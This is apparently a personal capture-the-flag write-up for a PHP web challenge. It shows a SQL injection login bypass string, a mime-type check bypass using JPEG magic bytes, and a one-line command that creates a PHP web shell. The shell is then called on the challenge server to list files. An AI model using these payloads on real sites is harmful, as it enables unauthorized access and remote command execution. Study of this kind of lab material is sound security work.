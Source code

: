 ```yaml
---
created: 2024-08-03T22:15
updated: 2024-08-03T22:25
tags:
  - php
  - mime
---
```


## login

Login bypass with naïve SQL injection.

```
kumo' or '1'='1
```

## upload

Bypass hypothetical mime type check via magic bytes.

Referenced [magic.mime)](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime)

```
# JPEG images
0	beshort		0xffd8		image/jpeg
```

```bash
echo -e '\xff\xd8<?php system($_GET['cmd']); ?>' > payload.jpg.php
```

## exploit

[188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls /](http://188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls%20/)
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722738101/2024/08/c8e388ba9b17413494cbaa7025c7db4c.png)

```flag
MSEC{s0me_T1me_I_w1sh_I4m_aC@t_noW0rk_noDeAdl1ne_JustMe0oow}
```

Not sure where is P1.
